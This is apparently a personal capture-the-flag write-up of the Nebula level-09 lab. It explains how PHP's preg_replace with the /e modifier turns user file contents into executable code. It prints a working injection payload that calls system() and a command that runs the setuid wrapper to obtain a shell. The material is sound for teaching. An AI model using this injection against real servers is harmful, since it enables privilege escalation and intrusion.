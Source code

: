 ```yaml
---
author: Josh Genao
Date: 2023-01-06
Category:
Tags:
---
```


# Level-09
## Description
There’s a C setuid wrapper for some vulnerable PHP code.

```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>

```
## Setup
SSH into the Nebula VM using the following credentials:

```
username: level09
password: level09
```
## Summary
This PHP code defines two function: spam and markup.

The **spam** function takes an email address as a parameter and replaces the **@** symbol with " AT " and the **.** with " dot ".  The **markup** function takes in two parameters $filename and processes it using the preg_replace function. The `\\2` in the replacement string is a backreference to the second captured group in the search pattern. In this case, the second captured group is `(.*)`, which matches any characters (except a newline) 0 or more times. The contents in the `(.*)` will be passed as the argument to the `spam` function.

The code is vulnerable to code injection as it fails to account for dangerous PCRE modification flags in the input string. The "e" modifier will cause PHP to execute the result of the preg_replace() as the PHP code. [^1]

We can create a file that contains the following contents:

```
[email {${system($use_me)}}]
```

We can call this php code and pass in the following arguments:
`$ /home/flag09/flag09 exploit.txt /bin/sh`
## Flag
![](../imgs/Pasted%20image%2020230110002550.png)
## References
[^1]: http://www.madirish.net/402
